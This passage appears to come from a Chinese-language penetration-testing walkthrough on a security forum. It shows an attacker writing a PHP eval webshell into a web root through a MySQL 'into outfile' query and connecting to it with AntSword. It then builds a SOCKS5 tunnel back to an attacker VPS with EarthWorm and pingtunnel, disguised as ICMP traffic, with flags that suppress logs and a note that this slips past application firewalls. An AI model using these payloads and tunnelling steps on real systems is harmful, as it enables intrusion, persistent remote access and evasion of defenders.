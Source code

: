 ![057](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b041f0bab550512431d243a672566f81bd3bae24.jpg)

写入webshell

```php
select '&amp;lt;?php @e val($_POST[ch4nge]);?&amp;gt;' into outfile 'C:/phpStudy/WWW/ch4nge.php';
```

![058](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-169f9c978b626d3ca69e3f44a0be3e508caa8af3.jpg)

### 4 蚁剑连接

![059](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ed44753f44bc8c4db479b1b1861a9b06f5da14c1.jpg)

二、ew+pingtunnel组合建立socks5隧道
---------------------------

**ew**

EarthWorm是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。

```php
https://github.com/idlefire/ew
```

**pingtunnel**

pingtunnel 是把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具

**注意，在客户端中运行一定要加noprint nolog两个参数，否则会生成大量的日志文件**

**由于ICMP为网络层协议，应用层防火墙无法识别，且请求包当中的数据字段被加密**

```php
https://github.com/esrrhs/pingtunnel
```

### 1 v/ps-kali执行

```php
./ew_for_linux64 -s rcsocks -l 10080 -e 8898

./pingtunnel -type server
```

将8898收到的请求转发至10080端口

![060](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c9840624cff6f93bdaa8af8dcbe55b15be38c6c8.jpg)

![061](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1ce4f23fdd22ca27a1c16cfe064dca125b8336ce.jpg)

### 2 WEB服务器执行pingtunnel

```php
pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.3.76 -t 192.168.3.76:8898 -sock5 -1 -noprint 1 -nolog 1
```
